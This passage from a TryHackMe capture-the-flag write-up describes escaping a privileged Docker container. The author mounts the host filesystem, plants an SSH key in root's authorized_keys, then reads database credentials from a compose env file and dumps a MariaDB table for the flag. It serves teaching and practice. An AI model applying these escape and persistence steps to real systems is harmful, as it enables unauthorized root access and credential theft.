

Right away I see that our domain is a wierd long string, telling me we're inside of a container. Now it makes sense why we couldn't spawn a python shell. We also have full Sudo permissions so, let's switch users to root and find a way to escape it. Escaping containers is pretty simple once we have root privs, so let's find out what capabilities we have access to.

```
cat /proc/self/status
```



The Effective Capabilities (CapEff)  value will disclose what to use. I use the capsh tool to list everything on my local machine.

```
capsh --decode=000001ffffffffff
```



### Escaping Docker Container
Alright that gives us a whole lot to work with, however the quickest way is to mount the host's root file system and generate a public SSH key to put into their authorized_keys folder so that we can just login via SSH. I like using the ed25519 key format as it's much shorter to echo into a file. 

```
ssh-keygen -f id_ed25519 -t ed25519
```



### Finding Root Flag
After echoing our pubkey into the mounted root filesystem, we can use our private key from the pair generated to login as root user and grab the user flag under their home directory.



We have full access over the box and the theme of it is a Moebious strip, hinting that we need to go back to the beginning in order to capture the root flag. Knowing that the database for the challenge is hosted in another container, we can check to see where it's running from by checking `docker-compose.yml` under `/root/challenge/`.

```
root@ubuntu-jammy:~/challenge# cat docker-compose.yml; echo
version: '3'

services:
  web:
    platform: linux/amd64
    build: ./web
    ports:
      - "80:80"
    restart: always
    privileged: true
  db:
    image: mariadb:10.11.11-jammy
    volumes:
      - "./db:/docker-entrypoint-initdb.d:ro"
    env_file:
      - ./db/db.env
```

The database's environment file is located at `/root/challenge/db/db.env` and inside are credentials for the MySQL server.

```
root@ubuntu-jammy:~/challenge# cat db/db.env; echo
MYSQL_PASSWORD=TAJnF6YuIot83X3g
MYSQL_DATABASE=web
MYSQL_USER=web
MYSQL_ROOT_PASSWORD=gG4i8NFNkcHBwUpd
```

Checking what containers are running, we see a mariadb instance 

```
root@ubuntu-jammy:~/challenge# docker container ls
CONTAINER ID   IMAGE                    COMMAND                  CREATED       STATUS       PORTS                                 NAMES
89366d62e05c   mariadb:10.11.11-jammy   "docker-entrypoint.s…"   50 weeks ago   Up 7 hours   3306/tcp                              challenge-db-1
bb28d5969dd5   challenge-web            "docker-php-entrypoi…"   50 weeks ago   Up 7 hours   0.0.0.0:80->80/tcp, [::]:80->80/tcp   challenge-web-1
```

A simple docker command allows us to grab a bash shell inside of it. Once on the box, I dump all fields within the secret database which rewards us with the root flag.

```
root@ubuntu-jammy:~/challenge# docker container exec -it 8936 bash

root@89366d62e05c:/# mysql -u root -pgG4i8NFNkcHBwUpd
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| secret             |
| sys                |
| web                |
+--------------------+
6 rows in set (0.004 sec)

MariaDB [(none)]> use secret;
MariaDB [secret]> show tables;
+------------------+
| Tables_in_secret |
+------------------+
| secrets          |
+------------------+
1 row in set (0.000 sec)

MariaDB [secret]> select * from secrets;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| THM{REDACTED}                         |
+---------------------------------------+
1 row in set (0.000 sec)
```

That's all y'all, this box was extremely hard for me as I kind of gathered a general idea of what to exploit, but didn't know how to put it into practice. Big thanks to [Shamollash](https://tryhackme.com/p/shamollash) for creating this challenge and also Jaxafed for the help with PHP disabled_functions bypass. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
